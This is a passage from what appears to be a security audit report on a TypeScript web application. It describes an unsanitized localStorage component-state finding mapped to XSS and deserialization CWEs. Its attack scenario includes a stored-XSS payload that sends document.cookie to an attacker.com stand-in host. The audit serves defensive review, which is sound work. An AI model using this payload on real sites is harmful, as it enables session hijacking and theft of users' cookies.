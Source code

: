 ```typescript
    }
  })

  if (cleaned > 0) {
    logger.warn(`Cleaned ${cleaned} legacy auth entries - user should re-authenticate`)
    // Optional: Force re-authentication
    window.location.href = '/?reauthenticate=true'
  }
}

// Run on app initialization
forceLegacyAuthCleanup()
```

**Effort Estimate**: 2-3 hours

---

### 1.6 MEDIUM: Component State Persistence Without Sanitization

**Vulnerability ID**: PRIO-SEC-006
**CVSS Score**: 5.4 (Medium)
**OWASP Mapping**: A03:2021 – Injection
**CWE**: CWE-79 (Cross-site Scripting), CWE-502 (Deserialization of Untrusted Data)

#### Description

`useComponentState` hook persists arbitrary component configuration in localStorage without input validation or sanitization, creating potential for stored XSS attacks.

#### Affected Code

**File**: `src/hooks/useComponentState.ts`
**Lines**: 89-117

```typescript
// VULNERABLE CODE - Lines 93-104
try {
  const persistedConfig = localStorage.getItem(`componentState:${key}`)
  if (persistedConfig) {
    const parsed = JSON.parse(persistedConfig)  // 🔴 Unsafe deserialization
    if (isValidComponentConfig(parsed)) {
      setConfig(prev => ({ ...prev, ...parsed }))  // 🔴 No sanitization
    }
  }
} catch (error) {
  logger.warn('Failed to load persisted component state', { key, error })
}
```

#### Attack Scenario

1. **Stored XSS via Component State**:
```javascript
// Attacker injects malicious state
localStorage.setItem('componentState:IdeaCard', JSON.stringify({
  state: 'error',
  errorMessage: '<img src=x onerror="fetch(`https://attacker.com/steal?cookie=${document.cookie}`)">',
  variant: 'primary'
}))

// When component loads, renders unsanitized errorMessage
<div className="error-message">{config.errorMessage}</div>  // XSS!
```
